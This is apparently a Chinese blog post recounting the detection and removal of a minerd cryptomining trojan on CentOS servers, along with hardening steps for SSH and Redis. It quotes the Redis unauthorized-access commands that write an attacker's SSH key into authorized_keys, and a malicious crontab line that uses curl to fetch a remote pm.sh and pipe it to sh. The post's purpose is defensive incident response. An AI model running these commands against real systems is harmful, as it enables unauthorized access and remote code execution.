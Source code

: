 ```yaml
---
title: 彻底清除Linux centos minerd木马
categories:
  - 错误集锦
tags:
  - redis
  - 安全
date: 2016-10-26 22:41:19
toc: false
---
```


>前几天，公司两台linux服务器，一台访问速度很慢，cpu跑满，一台免密码登录失效，公钥文件被改写成redis的key。用htop命令查询发现了minerd木马进程，初步猜测是redis没有配访问权限造成的。网上查询minerd木马，发现这是一个很常见的挖矿程序，相关猜测也得到了验证。

下文是网上搜索到的清除minerd木马方法，和我遇到的情况一模一样。

## 现状描述
1、top可以看到，这个minerd 程序把cpu跑满了

![1.jpg](http://7xvfir.com1.z0.glb.clouddn.com/%E5%BD%BB%E5%BA%95%E6%B8%85%E9%99%A4Linux%20centos%20minerd%E6%9C%A8%E9%A9%AC/1.jpg)
2、ps aux | grep minerd
可知是这个程序: /opt/minerd

<!-- more -->

这个不是我们自己启动的，可以断定服务器被黑了
这个进程是root用户启动的，代码有漏洞可能性不大（web服务是www用户启动的），多半黑客已经登录服务器了

![2.jpg](http://7xvfir.com1.z0.glb.clouddn.com/%E5%BD%BB%E5%BA%95%E6%B8%85%E9%99%A4Linux%20centos%20minerd%E6%9C%A8%E9%A9%AC/2.jpg)
3、有可能是免密登录了，去/root/.ssh 目录下，并没有发现authorized_keys，但发现了KHK75NEOiq这个文件

查看 vim KHK75NEOiq
可以看到内容就是免密码登录的公钥

![3.jpg](http://7xvfir.com1.z0.glb.clouddn.com/%E5%BD%BB%E5%BA%95%E6%B8%85%E9%99%A4Linux%20centos%20minerd%E6%9C%A8%E9%A9%AC/3.jpg)
4、在ssh的配置文件/etc/ssh/sshd_config中也可以看到把AuthorizedKeysFile指向了这个文件了（.ssh/KHK75NEOiq）

猜想是这样的：通过authorized_keys免密码登录后，在这个目录下创建了KHK75NEOiq这个文件，修改了AuthorizedKeysFile的指向，就把authorized_keys这个文件删除了。

![4.jpg](http://7xvfir.com1.z0.glb.clouddn.com/%E5%BD%BB%E5%BA%95%E6%B8%85%E9%99%A4Linux%20centos%20minerd%E6%9C%A8%E9%A9%AC/4.jpg)
5、那么是写进来authorized_keys的那？

之前我处理过类似的问题，是redis未授权导致的，也就是说外网可以直接不用密码登录我的redis, 连上redis后，通过以下命令即可创建文件：

<font style="color:red">**config set dir /root/.ssh
config set dbfilename authorized_keys
set key value，其中value为生成公钥，即可将公钥保存在服务器，使得登录时不需要输入账号与密码。**</font>

<br/>

---

## 先堵住免登录漏洞
1、修改ssh端口
编辑/etc/ssh/sshd_config文件中的Port 22将22修改为其他端口

2、禁止root用户登陆
编辑/etc/ssh/sshd_config文件中的PermitRootLogin 修改为no

3、修改无密码登陆的文件路径
编辑/etc/ssh/sshd_config文件中的AuthorizedKeysFile 修改为其他文件路径

4、删除 .ssh下的 KHK75NEOiq

5、不让外网直接连接
在 redis.conf 文件中找到#bind 127.0.0.1，把前面的#号去掉，重启

---

## 找到木马守护进程
1、通常直接kill掉进程，是不好使的，肯定有守护进程，还有系统自启动，所以清理步骤是这样的：
1）干掉守护进程
2）干掉系统自启动
3）干掉木马进程

找到木马守护进程并干掉

守护进程有大概有两种存在形式，crontab 和常驻进程，常驻进程得慢慢分析，我们先看crontab，有一条不是我创建的任务。任务是：直接从远程下载一个脚本pm.sh 并执行。

![5.jpg](http://7xvfir.com1.z0.glb.clouddn.com/%E5%BD%BB%E5%BA%95%E6%B8%85%E9%99%A4Linux%20centos%20minerd%E6%9C%A8%E9%A9%AC/5.jpg)

2、我们来看看这个脚本

![6.jpg](http://7xvfir.com1.z0.glb.clouddn.com/%E5%BD%BB%E5%BA%95%E6%B8%85%E9%99%A4Linux%20centos%20minerd%E6%9C%A8%E9%A9%AC/6.jpg)

3、大致逻辑是这样的：
1）把 */10 * * * * curl -fsSL http://r.chanstring.com/pm.sh?0706 | sh 写入crontab
2）把authorized_keys删掉，并创建免登录文件/root/.ssh/KHK75NEOiq，修改ssh配置重启
3）curl下载/opt/KHK75NEOiq33 这个文件，并执行安装（/opt/KHK75NEOiq33 --Install），然后启动ntp

4、基本可以断定这个ntp就是守护进程，但看到ntp真的有些怕怕，ntp不是搞时间同步的吗，其实 Linux正常的ntp服务叫ntpd，并非ntp，很有迷惑性啊

![7.jpg](http://7xvfir.com1.z0.glb.clouddn.com/%E5%BD%BB%E5%BA%95%E6%B8%85%E9%99%A4Linux%20centos%20minerd%E6%9C%A8%E9%A9%AC/7.jpg)

5、但为了让自己放心，还是校验了一番
我们先从时间上校验，ntp是不是木马任务后创建的

查看这个木马任务第一次执行的时间
去/var/log下看cron的日志

![8.jpg](http://7xvfir.com1.z0.glb.clouddn.com/%E5%BD%BB%E5%BA%95%E6%B8%85%E9%99%A4Linux%20centos%20minerd%E6%9C%A8%E9%A9%AC/8.jpg)

6、Jul 24 09:23:01 第一次执行： curl -L http://r.chanstring.com/pm.sh?0703
Jul 24 09:30:01 第一次我们目前crontab里的任务：curl -fsSL http://r.chanstring.com/pm.sh?0706
Jul 24 09:49 脚本/etc/init.d/ntp的创建时间

从pm.sh这个脚本可知 curl下来/opt/KHK75NEOiq33这个文件，并执行安装 /opt/KHK75NEOiq33 --Install 比较耗时间，我执行了一下，在我的机器上是10多分钟。

所以创建时间上基本吻合

![9.jpg](http://7xvfir.com1.z0.glb.clouddn.com/%E5%BD%BB%E5%BA%95%E6%B8%85%E9%99%A4Linux%20centos%20minerd%E6%9C%A8%E9%A9%AC/9.jpg)

7、我们看一下ntp的随系统启动
runlevel 2 3 4 5都启动了，够狠的呀

![10.jpg](http://7xvfir.com1.z0.glb.clouddn.com/%E5%BD%BB%E5%BA%95%E6%B8%85%E9%99%A4Linux%20centos%20minerd%E6%9C%A8%E9%A9%AC/10.jpg)

8、看一下常用的3吧
可以看到 有个S50ntp 软链了脚本/etc/init.d/ntp

![11.jpg](http://7xvfir.com1.z0.glb.clouddn.com/%E5%BD%BB%E5%BA%95%E6%B8%85%E9%99%A4Linux%20centos%20minerd%E6%9C%A8%E9%A9%AC/11.jpg)

9、我们查看系统启动日志
vim /var/log/boot.log
有一条是Staring S50ntp，这个基本对应脚本/etc/init.d/ntp 中的 echo "Starting $name"

![12.jpg](http://7xvfir.com1.z0.glb.clouddn.com/%E5%BD%BB%E5%BA%95%E6%B8%85%E9%99%A4Linux%20centos%20minerd%E6%9C%A8%E9%A9%AC/12.jpg)

10、我们来看一下 /etc/init.d/ntp 这个脚本
$name应该就对应的值是 S50ntp，通过stdout_log,stderr_log,pid_file也得到了验证。

![13.jpg](http://7xvfir.com1.z0.glb.clouddn.com/%E5%BD%BB%E5%BA%95%E6%B8%85%E9%99%A4Linux%20centos%20minerd%E6%9C%A8%E9%A9%AC/13.jpg)

11、通过搜索安装文件（/opt/KHK75NEOiq33），可知看到 /opt/KHK75NEOiq33 --Install的过程中写入了ntp脚本 自启动 /opt/minerd等一系列的操作。

![14.jpg](http://7xvfir.com1.z0.glb.clouddn.com/%E5%BD%BB%E5%BA%95%E6%B8%85%E9%99%A4Linux%20centos%20minerd%E6%9C%A8%E9%A9%AC/14.jpg)

12、打开 /usr/local/etc/minerd.conf，内容就是/opt/minerd这个进程后的一些参数

![15.jpg](http://7xvfir.com1.z0.glb.clouddn.com/%E5%BD%BB%E5%BA%95%E6%B8%85%E9%99%A4Linux%20centos%20minerd%E6%9C%A8%E9%A9%AC/15.jpg)

13、好了 验证完毕，可以干掉这个ntp了

---

## 清理木马
1、去掉crontab文件中的有关木马内容：
/var/spool/cron/crontabs/root
/var/spool/cron/root

2、干掉守护进程ntp，并删除相关文件

![16.jpg](http://7xvfir.com1.z0.glb.clouddn.com/%E5%BD%BB%E5%BA%95%E6%B8%85%E9%99%A4Linux%20centos%20minerd%E6%9C%A8%E9%A9%AC/16.jpg)
![17.jpg](http://7xvfir.com1.z0.glb.clouddn.com/%E5%BD%BB%E5%BA%95%E6%B8%85%E9%99%A4Linux%20centos%20minerd%E6%9C%A8%E9%A9%AC/17.jpg)

3、干掉木马进程及其文件

![18.jpg](http://7xvfir.com1.z0.glb.clouddn.com/%E5%BD%BB%E5%BA%95%E6%B8%85%E9%99%A4Linux%20centos%20minerd%E6%9C%A8%E9%A9%AC/18.jpg)

4、干掉安装文件及免密登录的文件

![19.jpg](http://7xvfir.com1.z0.glb.clouddn.com/%E5%BD%BB%E5%BA%95%E6%B8%85%E9%99%A4Linux%20centos%20minerd%E6%9C%A8%E9%A9%AC/19.jpg)

5、干掉随系统启动的文件

![20.jpg](http://7xvfir.com1.z0.glb.clouddn.com/%E5%BD%BB%E5%BA%95%E6%B8%85%E9%99%A4Linux%20centos%20minerd%E6%9C%A8%E9%A9%AC/20.jpg)

6、top一下 一切都正常了！

![21.jpg](http://7xvfir.com1.z0.glb.clouddn.com/%E5%BD%BB%E5%BA%95%E6%B8%85%E9%99%A4Linux%20centos%20minerd%E6%9C%A8%E9%A9%AC/21.jpg)

7、重启一下，也没问题了

![22.jpg](http://7xvfir.com1.z0.glb.clouddn.com/%E5%BD%BB%E5%BA%95%E6%B8%85%E9%99%A4Linux%20centos%20minerd%E6%9C%A8%E9%A9%AC/22.jpg)
